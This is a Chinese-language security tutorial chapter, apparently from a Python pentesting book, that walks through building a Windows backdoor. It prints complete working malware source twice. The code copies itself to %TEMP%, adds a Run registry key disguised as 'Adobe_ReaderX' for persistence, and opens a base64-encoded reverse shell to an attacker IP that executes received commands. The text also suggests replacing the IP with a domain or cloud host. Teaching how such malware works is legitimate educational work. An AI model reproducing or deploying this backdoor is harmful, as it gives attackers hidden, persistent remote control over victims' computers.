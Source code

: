# exp 编写

本节将带着大家利用前面章节所学到的知识使用 Python 和 PyInstalle 自己的 exp,在前面的[章节](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md),讲到了如何把一个 python 脚本编译成为一个可执行的 PE 文件,现在让我们利用前面学到的知识快速写一个 windows 工具脚本.

### 开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在 windows 里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass 
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个 shell,通过一个 Python 脚本——[TrustedSec](https://www.trustedsec.com/files/RevShell_PoC_v1.py)来实现攻击,但是做了一点修改,对传输的文本做了一个 base64 编码.

```
def shell():
#Base64 编码反向 shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定 IP,这里可以修改为一个域名或者是 Amazon cloud 的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被 base64 编码后的数据流量包

![malware](img/0xc.png)

下面是完整代码:

```
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```